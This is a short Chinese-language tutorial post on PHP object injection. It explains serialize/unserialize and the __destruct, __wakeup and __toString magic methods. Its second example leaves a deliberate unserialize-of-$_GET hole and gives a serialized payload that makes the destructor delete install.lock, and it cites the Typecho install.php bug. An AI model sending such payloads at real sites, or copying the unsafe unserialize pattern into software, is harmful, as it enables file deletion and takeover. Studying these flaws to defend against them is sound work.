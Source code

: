 ```yaml
---
title: "PHP 对象注入"
date: 2018-05-13T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['php', 'ctf']
categories: ['web']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


序列化 (serialize) 指将 PHP 变量/数组/函数/类 转换为可保存或传输的过程, 再通过反序列化 (unserialize) 转换为原来的数据使用.

<!--more-->

关于反序列化 有 3 个魔术方法.

```
__destruct - 程序结束时调用
__wakeup - 类被反序列化时调用
__toString - 类被作为字符串时调用
```

# Example 1

```
class Test{
	var $name = 'hello';
	public function __destruct(){
		echo $this->name;
	}
```

该类实例化后将在程序结束时打印出 name 的值.

更改 name 的值, 之后序列化.

```
$test = new Test();
$test->name = 'world';
echo serialize($test);

O:4:"Test":1:{s:4:"name";s:5:"world";}
```

反序列化.

```
$u = unserialize('O:4:"Test":1:{s:4:"name";s:5:"world";}');
```

```
world
```

# Example 2

```
class FileClass{

	var $filename;
	var $content;

	public function __construct($filename,$content){
		$this->filename = $filename;
		$this->content = $content;
	}

	public function write($content){
		file_put_contents($this->filename,$content);
	}

	public function __destruct(){
		echo 'clean file'.$this->filename;
		@unlink($this->filename);
	}
}

$u = unserialize($_GET['u']);
?>
```

利用

```
class FileClass{
	var $filename = 'install.lock';
}
echo serialize(new FileClass());
```

GET 传递 `O:9:"FileClass":1:{s:8:"filename";s:12:"install.lock";}`

```
clean file install.lock
```

# Other

参考 Typecho install.php 反序列化漏洞

https://paper.seebug.org/424/